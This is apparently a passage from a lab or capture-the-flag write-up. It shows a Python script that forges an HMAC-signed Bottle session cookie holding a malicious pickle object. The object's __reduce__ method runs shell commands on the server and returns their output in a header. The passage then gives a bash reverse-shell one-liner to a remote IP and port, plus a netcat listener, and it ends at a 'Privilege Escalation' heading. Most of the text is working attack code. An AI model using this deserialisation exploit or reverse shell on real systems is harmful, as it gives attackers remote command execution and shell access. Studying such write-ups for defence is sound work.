 ```python
        return s.encode(enc)
    return b'' if s is None else bytes(s)

def touni(s, enc='utf8', err='strict'):
    if isinstance(s, bytes):
        return s.decode(enc, err)
    return str("" if s is None else s)

def create_cookie(name, value, secret):
    d = pickle.dumps([name, value], -1)
    encoded = base64.b64encode(d)
    sig = base64.b64encode(hmac.new(tob(secret), encoded, digestmod=hashlib.md5).digest())
    value = touni(tob('!') + sig + tob('?') + encoded)
    return value

class PickleRCE(object):
    def __init__(self, cmd):
        self.cmd = cmd

    def __reduce__(self):
        return (exec,(f"""
from bottle import response
import subprocess
import base64
output = subprocess.check_output('{self.cmd}', shell=True)
response.set_header('X-Flag', base64.b64encode(output))
""",))

def execute_command(cmd):
    try:
        session = {"name": PickleRCE(cmd)}
        cookie = create_cookie("name", session, "546546DSQ7711DSQDSQXWZ")
        r = requests.get("http://192.168.185.246:8080", cookies={"name": cookie})
        return base64.b64decode(r.headers["x-flag"]).decode("ascii")
    except Exception as e:
        print("Something went wrong")
        print(e)
```

Using this script, I was able to execute arbitrary commands on the server and establish a reverse shell:
```bash
python3 exploit.py "bash -c 'bash -i >& /dev/tcp/192.168.45.172/4444 0>&1'"
```

I had a listener set up to catch the connection:
```bash
nc -lvnp 4444
```

This provided initial access as the `hcue` user.

## Privilege Escalation
